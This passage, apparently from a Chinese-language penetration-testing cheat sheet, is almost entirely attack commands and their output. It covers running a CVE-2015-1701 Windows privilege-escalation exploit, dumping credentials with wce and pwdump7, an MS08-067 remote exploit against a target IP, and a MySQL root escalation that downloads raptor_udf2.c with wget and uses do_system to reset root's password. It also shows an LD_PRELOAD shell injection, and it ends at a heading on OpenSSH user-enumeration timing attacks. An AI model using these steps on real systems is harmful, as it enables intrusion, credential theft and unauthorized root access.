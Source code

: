 # 上传编译后的利用程序并运行它

https://github.com/hfiref0x/CVE-2015-1701/raw/master/Compiled/Taihou64.exe

# 默认情况下其会以系统权限执行 cmd.exe，但我们需要改变源代码以运行我们上传的 danger.exe
# https://github.com/hfiref0x/CVE-2015-1701 下载它并定位到 "main.c"

# 使用 wce.exe 获取已登录用户的明文账号密码

http://www.ampliasecurity.com/research/windows-credentials-editor/

wce -w

# 使用 pwdump7 获取其他用户的密码哈希值

http://www.heise.de/download/pwdump.html

# we can try online hash cracking tools such crackstation.net
MS08-067 – 不使用 Metasploit
$ nmap -v -p 139, 445 --script=smb-check-vulns --script-args=unsafe=1 192.168.31.205
$ searchsploit ms08-067
$ python /usr/share/exploitdb/platforms/windows/remote/7132.py 192.168.31.205 1
通过 MySQL Root 账户实现提权
# Mysql Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)
$ wget 0xdeadbeef.info/exploits/raptor_udf2.c
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('echo "root:passwd" | chpasswd > /tmp/out; chown user:user /tmp/out');

user:~$ su -
Password:
user:~# whoami
root
root:~# id
uid=0(root) gid=0(root) groups=0(root)
使用 LD_PRELOAD 注入程序
$ wget https://github.com/jivoi/pentest/ldpreload_shell.c
$ gcc -shared -fPIC ldpreload_shell.c -o ldpreload_shell.so
$ sudo -u user LD_PRELOAD=/tmp/ldpreload_shell.so /usr/local/bin/somesoft
针对 OpenSSH 用户进行枚举时序攻击
注：枚举时序攻击(“Enumeration Timing Attack”)属于侧信道攻击/旁路攻击(Side Channel Attack)，侧信道攻击是指利用信道外的信息，比如加解密的速度/加解密时芯片引脚的电压/密文传输的流量和途径等进行攻击的方式，一个词形容就是“旁敲侧击”。–参考自 shotgun 在知乎上的解释。
